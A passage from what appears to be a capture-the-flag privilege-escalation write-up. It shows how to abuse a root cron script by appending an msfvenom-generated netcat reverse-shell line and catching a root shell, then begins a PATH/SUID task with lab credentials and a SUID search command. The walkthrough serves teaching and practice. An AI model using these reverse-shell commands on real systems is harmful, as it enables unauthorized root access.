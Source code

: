 PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/5  *    * * * root    /home/user4/Desktop/autoscript.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#{% endraw %}{% endcapture %} {% include code.html code=code %}

The script `/home/user4/Desktop/autoscript.sh` runs as root user, and can be enumerated to gain reverse shell.

Using `msfvenom`, generate reverse shell payload.
{% capture code %}{% raw %}msfvenom -p cmd/unix/reverse_netcat lhost=<source-ip> lport=443 R{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 94 bytes
mkfifo /tmp/kaxkx; nc <source-ip> 443 0</tmp/kaxkx | /bin/sh >/tmp/kaxkx 2>&1 ; rm /tmp/kaxkx{% endraw %}{% endcapture %} {% include code.html code=code %}

Check the contents of the file `./Desktop/autoscript.sh`.
{% capture code %}{% raw %}touch /home/user4/abc.txt
echo "I will automate the process"
bash -i{% endraw %}{% endcapture %} {% include code.html code=code %}

Append the generated `reverse shell` to the end of file `./Desktop/autoscript.sh`.
{% capture code %}{% raw %}echo 'mkfifo /tmp/kaxkx; nc <source-ip> 443 0</tmp/kaxkx | /bin/sh >/tmp/kaxkx 2>&1 ; rm /tmp/kaxkx' >> Desktop/autoscript.sh{% endraw %}{% endcapture %} {% include code.html code=code %}

Using `netcat`, create a listener.
{% capture code %}{% raw %}rlwrap -cAr nc -lnvp 443{% endraw %}{% endcapture %} {% include code.html code=code %}

The reverse shell session will be created.
{% capture code %}{% raw %}Listening on [0.0.0.0] (family 0, port 443)
Connection from <target-ip> 38864 received!

whoami
root{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 9 - Exploiting PATH Variable

Login to the target using credentials `user5:password`.

From previous `LinEnum.sh` script output, the file `/home/user5/script` had `suid` bit set. It can also be checked using the following command.
{% capture code %}{% raw %}find . -perm -u=s -type f -exec ls -l {} \; 2>/dev/null{% endraw %}{% endcapture %} {% include code.html code=code %}
